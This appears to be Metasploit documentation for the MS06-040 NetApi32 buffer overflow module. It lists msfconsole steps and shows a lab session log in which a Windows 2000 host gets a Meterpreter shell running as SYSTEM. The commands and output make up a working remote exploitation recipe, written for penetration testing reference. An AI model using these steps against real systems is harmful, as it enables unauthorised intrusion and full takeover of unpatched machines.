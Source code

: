 ## Vulnerable Application

This module exploits a stack buffer overflow in the NetApi32 CanonicalizePathName() function using the NetpwPathCanonicalize RPC call in the Server Service. It is likely that other RPC calls could be used to exploit this service. This exploit will result in a denial of service on Windows XP SP2 or Windows 2003 SP1. A failed exploit attempt will likely result in a complete reboot on Windows 2000 and the termination of all MB-related services on Windows XP. The default target for this exploit should succeed on Windows NT 4.0, Windows 2000 SP0-SP4+, Windows XP SP0-SP1 and Windows 2003 SP0.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms06_040_netapi`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set PAYLOAD [payload]`
  5. Do: `set LHOST [IP]`
  6. Do: `set LPORT [IP]`
  7. Do: `run`

## Scenarios

### A run against Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```
  msf exploit(windows/smb/ms06_040_netapi) > use modules/exploit/windows/smb/ms06_040_netapi
  msf exploit(windows/smb/ms06_040_netapi) > set RHOSTS 192.168.1.2
  msf exploit(windows/smb/ms06_040_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  msf exploit(windows/smb/ms06_040_netapi) > exploit

    [*] 192.168.1.2:445 - Detected a Windows 2000 target
    [*] 192.168.1.2:445 - Binding to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Bound to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Building the stub data...
    [*] 192.168.1.2:445 - Calling the vulnerable function...
    [*] Started bind TCP handler against 192.168.1.2:4444
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:39603 -> 192.168.1.2:4444) at 2019-12-02 11:48:52 -0700


    meterpreter > sysinfo
      Computer        : PC-B43791F5F5
      OS              : Windows 2000 (5.0 Build 2195).
      Architecture    : x86
      System Language : en_US
      Domain          : WORKGROUP
      Logged On Users : 1
      Meterpreter     : x86/windows

    meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
  ```
